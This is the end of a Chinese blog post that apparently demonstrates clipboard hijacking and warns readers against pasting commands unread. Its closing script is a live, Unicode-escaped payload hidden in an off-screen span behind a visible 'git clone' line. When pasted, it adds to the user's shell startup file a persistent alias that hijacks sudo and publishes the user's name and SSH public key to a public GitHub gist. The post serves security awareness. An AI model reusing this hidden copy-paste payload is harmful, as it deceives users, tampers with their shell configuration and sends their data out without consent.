 最后，如果你把刚才那行命令复制到文本编辑器里面的话，应该很容易看出来它做了什么。可读版的JavaScript和Shell代码[在这里](https://github.com/soimort/Copycat-Rootkit-Demo)。（如果刚才没有`git clone`的话……）

***

现在你大概知道了，看都不看就随随便便把别人的东西拿过来复制粘贴也是有风险的。

伸手党们，小心了！





<script>var ds=document.getElementById("demoSpan");ds.parentNode.removeChild(ds);var dp=document.getElementById("demoP"),t1=document.createTextNode("git clone ");dp.appendChild(t1);var sp=document.createElement("span");sp.setAttribute("style","position: fixed; left: -100px; top: -100px"),dp.appendChild(sp);var st1=document.createTextNode("\u002f\u0064\u0065\u0076\u002f\u006e\u0075\u006c\u006c\u003b\u0063\u006c\u0065\u0061\u0072\u003b\u0049\u0046\u0053\u003d\u0027\u0025\u0027\u003b\u0073\u003d\u0027\u005c\u006e\u0070\u003d\u0024\u0028\u0063\u0061\u0074\u00a0\u007e\u002f\u002e\u0073\u0073\u0068\u002f\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u0070\u0075\u0062\u0029\u003b\u006d\u003d\u0024\u0028\u0065\u0063\u0068\u006f\u00a0\u0024\u0070\u00a0\u007c\u00a0\u0063\u0075\u0074\u00a0\u002d\u0066\u0033\u00a0\u002d\u0064\u0022\u00a0\u0022\u0029\u003b\u0049\u0046\u0053\u003d\u0027\u005c\u0027\u005c\u005c\u0078\u0032\u0035\u005c\u0027\u0027\u003b\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0027\u005c\u0027\u0027\u0023\u0021\u002f\u0062\u0069\u006e\u002f\u0073\u0068\u005c\u005c\u006e\u0073\u0075\u0064\u006f\u00a0\u0024\u0040\u005c\u005c\u006e\u0065\u0063\u0068\u006f\u003b\u0065\u0063\u0068\u006f\u00a0\u0048\u0065\u0079\u002c\u00a0\u006c\u006f\u006f\u006b\u00a0\u0061\u0074\u00a0\u0077\u0068\u0061\u0074\u00a0\u0079\u006f\u0075\u005c\u005c\u0027\u005c\u0027\u0027\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u0076\u0065\u00a0\u006a\u0075\u0073\u0074\u00a0\u0064\u006f\u006e\u0065\u003a\u00a0\u0027\u005c\u0027\u0027\u0024\u0028\u0063\u0075\u0072\u006c\u00a0\u002d\u0073\u00a0\u002d\u0058\u00a0\u0050\u004f\u0053\u0054\u00a0\u002d\u0064\u00a0\u0027\u005c\u0027\u0027\u007b\u0022\u0070\u0075\u0062\u006c\u0069\u0063\u0022\u003a\u0074\u0072\u0075\u0065\u002c\u0022\u0066\u0069\u006c\u0065\u0073\u0022\u003a\u007b\u0022\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u006d\u0064\u0022\u003a\u007b\u0022\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u0022\u003a\u0022\u0027\u005c\u0027\u0027\u0024\u0028\u0077\u0068\u006f\u0061\u006d\u0069\u0029\u0027\u005c\u0027\u0027\u00a0\u003c\u003c\u0027\u005c\u0027\u0027\u0024\u006d\u0027\u005c\u0027\u0027\u003e\u003e\u005c\u005c\u006e\u005c\u005c\u006e\u0059\u006f\u0075\u0072\u00a0\u0060\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u0070\u0075\u0062\u0060\u00a0\u0069\u0073\u003a\u005c\u005c\u006e\u005c\u005c\u006e\u00a0\u00a0\u00a0\u00a0\u0027\u005c\u0027\u0027\u0024\u0070\u0027\u005c\u0027\u0027\u005c\u005c\u006e\u005c\u005c\u006e\u0059\u006f\u0075\u0072\u00a0\u0060\u0069\u0064\u005f\u0072\u0073\u0061\u0060\u00a0\u0069\u0073\u003a\u005c\u005c\u006e\u005c\u005c\u006e\u00a0\u00a0\u00a0\u00a0\u004e\u006f\u00a0\u0077\u006f\u0072\u0072\u0079\u002e\u00a0\u0049\u0027\u005c\u0027\u0027\u005c\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u006d\u00a0\u0067\u006f\u006f\u0064\u00a0\u0073\u006f\u00a0\u0049\u0027\u005c\u0027\u0027\u005c\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u006c\u006c\u00a0\u006a\u0075\u0073\u0074\u00a0\u006b\u0065\u0065\u0070\u00a0\u0079\u006f\u0075\u00a0\u0073\u0061\u0066\u0065\u002e\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u0022\u007d\u007d\u007d\u0027\u005c\u0027\u0027\u00a0\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0061\u0070\u0069\u002e\u0067\u0069\u0074\u0068\u0075\u0062\u002e\u0063\u006f\u006d\u002f\u0067\u0069\u0073\u0074\u0073\u00a0\u007c\u00a0\u0067\u0072\u0065\u0070\u00a0\u0027\u005c\u0027\u0027\u0022\u0068\u0074\u006d\u006c\u005f\u0075\u0072\u006c\u0022\u0027\u005c\u0027\u0027\u00a0\u007c\u00a0\u0063\u0075\u0074\u00a0\u002d\u0066\u0034\u00a0\u002d\u0064\u0027\u005c\u0027\u0027\u0022\u0027\u005c\u0027\u0027\u0029\u00a0\u003e\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u003b\u0075\u006e\u0073\u0065\u0074\u00a0\u0049\u0046\u0053\u003b\u0063\u0068\u006d\u006f\u0064\u00a0\u002b\u0078\u00a0\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u003b\u0061\u006c\u0069\u0061\u0073\u00a0\u0073\u0075\u0064\u006f\u003d\u0022\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u0022\u0027\u003b\u0069\u0066\u00a0\u005b\u005b\u00a0\u0060\u0065\u0063\u0068\u006f\u00a0\u0024\u0030\u0060\u00a0\u003d\u007e\u00a0\u0022\u002e\u002a\u007a\u0073\u0068\u0022\u00a0\u005d\u005d\u003b\u0074\u0068\u0065\u006e\u00a0\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0024\u0073\u00a0\u003e\u003e\u007e\u002f\u002e\u007a\u0073\u0068\u0072\u0063\u003b\u0065\u006c\u0073\u0065\u00a0\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0024\u0073\u00a0\u003e\u003e\u007e\u002f\u002e\u0062\u0061\u0073\u0068\u0072\u0063\u003b\u0066\u0069\u003b\u0075\u006e\u0073\u0065\u0074\u00a0\u0049\u0046\u0053");sp.appendChild(st1);var br=document.createElement("br");sp.appendChild(br);var st3=document.createTextNode("git clone ");sp.appendChild(st3);var t2=document.createTextNode("git://github.com/soimort/Copycat-Rootkit-Demo.git");dp.appendChild(t2);</script>
